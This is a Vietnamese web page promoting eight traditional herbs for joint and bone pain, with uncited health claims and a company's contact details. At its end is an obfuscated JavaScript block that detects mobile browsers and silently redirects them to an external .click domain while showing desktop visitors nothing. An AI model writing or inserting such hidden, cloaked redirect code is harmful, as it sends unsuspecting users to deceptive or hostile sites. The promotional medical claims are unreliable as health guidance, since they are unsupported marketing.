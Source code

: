 Người mắc bệnh xương khớp có nên sử dụng thảo dược?
---------------------------------------------------

Hiện nay, xu hướng của những người mắc các bệnh lý xương khớp là lựa chọn các vị thuốc, cây thuốc có nguồn gốc từ thiên nhiên, an toàn, lành tính, đặc biệt là những thảo dược đã được dân gian sử dụng từ bao đời nay.

Chiết xuất quả chiêu liêu có tác dụng chống viêm, hỗ trợ giảm đau khớp

8 loại thảo dược quý trong YHCT tốt cho xương khớp
-------------------------------------------------

Đối với các bệnh lý xương khớp thì những thảo dược thường được sử dụng từ xa xưa trong YHCT phải kể đến như: Thiên niên kiện, Dây đau xương, Hy thiêm, Độc hoạt, Kê huyết đằng, Thổ phục linh, Xuyên khung, Ngưu tất bắc. Trong đó:

Thiên niên kiện (Rhizoma Homalomenae occultae): Trừ phong thấp, cường gân cốt, chỉ thống.

Dây đau xương (Caulis Tinosporae sinensis): Khu phong trừ thấp, thư cân hoạt lạc.

Hy thiêm (Herba Siegesbeckiae): Trừ phong thấp, thông kinh lạc.

Độc hoạt (Radix Angelicae pubescentis): Trừ phong thấp, chỉ thống, giải biểu, khứ phong, thắng thấp, tán hàn.

Kê huyết đằng (Caulis Spatholobi suberecti): Hoạt huyết, bổ huyết, thư cân, mạnh gân cốt, thông kinh hoạt lạc.

Thổ phục linh (Rhizoma Smilacis glabrae): Trừ phong thấp, lợi gân cốt, tiêu độc.

Xuyên khung (Rhizoma ligustici Wallichi): Bổ huyết, khai uất, khu phong, chỉ thống.

Ngưu tất bắc (Radix Achyranthis bidentatae): Hoạt huyết, thông kinh hoạt lạc, thư cân, mạnh gân cốt.

Sử dụng kết hợp các thảo dược trên giúp thận được bồi bổ, khí huyết lưu thông dễ dàng, hệ cơ xương khớp nhờ đó cũng được nuôi dưỡng đầy đủ, tránh được những cơn đau nhức do tắc nghẽn, chèn ép mạch máu, cân cơ và ngay tại ổ khớp.

8 thảo dược này không chỉ giúp giảm triệu chứng đau nhức khớp mà còn bồi bổ, nuôi dưỡng hệ cơ xương khớp một cách toàn diện khi sử dụng lâu dài. Cụ thể:

Bổ khí huyết, gan thận

Giúp giảm đau, chống viêm

Mạnh gân cốt

Phòng ngừa và hạn chế thoái hóa

THÔNG TIN LIÊN HỆ:

THẢO DƯỢC TỐT NHẤT CHO XƯƠNG KHỚP - CÔNG TY TNNH THƯƠNG MẠI JQK

GMAIL: THAODUOCXUONGKHỌPQK@GMAIL.COM

ĐỊA CHỈ: ĐẠI THÀNH - QUỐC OAI - HÀ NỘI

SỐ ĐIỆN THOẠI: 0977.888.999

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.muaxuandaden.click/loikk",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
